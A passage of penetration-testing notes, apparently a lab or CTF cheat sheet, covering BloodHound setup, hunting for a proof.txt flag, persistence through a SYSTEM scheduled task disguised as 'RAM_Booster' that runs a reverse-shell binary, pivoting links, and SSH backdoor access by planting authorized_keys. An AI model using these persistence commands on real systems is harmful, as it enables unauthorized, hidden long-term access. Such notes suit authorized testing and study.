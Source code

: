 Download the ZIP file and on kali, run

```bash
neo4j console
```

Change password at [http://127.0.0.1:7474](http://127.0.0.1:7474) and then start bloodhound, then drag the ZIP file into bloodhound.

### Find flag proof.txt

```bash
dir /b /s proof.txt
```

# Persistence

### schtasks

```jsx
schtasks /create /sc minute /mo 1 /tn RAM_Booster /tr "c:\users\alice\Desktop\rev.exe" /ru system
```

```jsx
schtasks /run /tn "RAM_Booster"
```

## Pivoting

[https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6](https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6)

[https://blog.zsec.uk/proxying-offensive/](https://blog.zsec.uk/proxying-offensive/)

[https://medium.com/geekculture/forwarding-burp-suite-traffic-through-socks-proxy-bada1124341c](https://medium.com/geekculture/forwarding-burp-suite-traffic-through-socks-proxy-bada1124341c)

### SSH perm no password access

```bash
ssh-keygen
```

```bash
ssh-copy-id -i ~/.ssh/id_rsa.pub root@$ip
```

### SSH Persistent Access (can be transferred using RSYNC)

```bash
ssh-keygen -f username
```

```bash
cp username.pub .ssh/authorized_keys
```
